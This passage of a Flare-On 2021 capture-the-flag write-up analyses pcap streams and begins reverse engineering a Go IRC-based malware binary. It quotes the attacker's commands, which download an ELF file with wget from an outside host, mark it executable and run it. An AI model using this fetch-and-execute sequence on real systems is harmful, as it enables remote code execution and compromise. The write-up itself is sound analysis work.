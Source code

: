 The second stream:
<p align="center">
    <img src="/assets/images/flareon/2021/10/2.png"/>
</p>
Attacker use wget to download something to the server. The command after being urldecoded is `wget -O /mages_tower/induct http://wizardcult.flare-on.com/induct`.

The third stream: we can see the file that being downloaded. It might be an executable since we can see the "ELF" in the stream.
<p align="center">
    <img src="/assets/images/flareon/2021/10/3.png"/>
</p>

The fourth and fifth streams: attacker ran `chmod +x /mages_tower/induct` and `/mages_tower/induct`, the other streams: I don't know what happened, but I can see some IRC command, maybe that is the traffic of the newly created process `induct`. Now we have to dump the binary from the pcap and reverse engineer it to see what is going on.

```
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, not stripped
```
The file is a 64-bit executable. After opened it in IDA Pro, I know it is a Golang executable since it has a function named "main_main". This function is also the entrypoint.
> In this post, I will not go to deep into Golang internal, since it will make this post too long. Instead, you can read it [here](https://dr-knz.net/go-calling-convention-x86-64.html).

```cpp
void __cdecl main_main()
{
  // ...
  github_com_lrstanley_girc_New(...);
  github_com_lrstanley_girc___ptr_Caller__sregister(
    *(_QWORD *)(v41 + 344),
    0,
    (__int64)"CLIENT_CONNECTEDCloud of DaggersContent-Encod",
    16LL,
    (__int64)&go_itab_github_com_lrstanley_girc_HandlerFunc_github_com_lrstanley_girc_Handler,
    (__int64)&p_handler_connected);
  github_com_lrstanley_girc___ptr_Caller__sregister(
    *(_QWORD *)(v41 + 344),
```
